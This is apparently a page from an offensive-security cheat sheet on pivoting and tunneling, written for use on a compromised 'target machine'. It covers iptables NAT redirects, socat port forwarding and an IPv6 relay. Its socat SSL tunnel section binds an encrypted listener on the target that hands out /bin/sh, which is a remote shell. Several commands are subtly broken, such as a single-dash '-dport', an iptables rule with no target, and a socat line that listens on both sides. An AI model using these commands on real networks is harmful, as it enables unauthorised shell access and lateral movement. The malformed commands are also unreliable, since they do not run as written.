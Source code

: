 ### Create a rule to redirect matching traffic on the same host
```bash
iptables -t nat -A PREROUTING -i [interface] -p tcp -dport [port_a] -j REDIRECT --to-port [port_b]
```

### Create a rule to redirect matching traffic to a different host
```bash
iptables -t nat -A PREROUTING -p tcp -s 192.168.1.2 --sport 1234:4321 -d 192.168.100.2 --dport 22
```
## socat
Socat if installed on the target machine is another great way for tunneling while living of the land. 

### Redirect all Port A connections locally to Port B
```bash
socat TCP4-LISTEN: [port_b], reuseaddr, fork TCP4-LISTEN:[port_a],reuseaddr
```

### Port to remote ip and port
```bash
socat TCP-LISTEN:[lport],fork TCP:[redirect ip]:[rport] &
```

### Translate between IPv4 and IPv6
```bash
socat TCP-LISTEN:[lport],fork TCP6:[redirect ipv6]:[rport] &
```

### Socat SSL tunnel
```bash
// Generate 
filename=server
openssl genrsa -out $filename.key 1024
openssl req -new -key $filename.key -x509 -days 3653 -out $filename.crt
cat $filename.key $filename.crt > $filename.pem
chmod 600 $filename.key $filename.pem

// run on target
socat OPENSSL-LISTEN:443, reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh

// on local

socat STDIO OPENSSL-CONNECT:localhost:443,cert=$filename.pem,cafile=$filename.crt
```

## Basic Pivoting Types

| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| Listen - Listen   | Exposed asset, may not want to connect out. |
| Listen - Connect  | Normal redirect.                            |
| Connect - Connect | Can’t bind, so connect to bridge two hosts  |

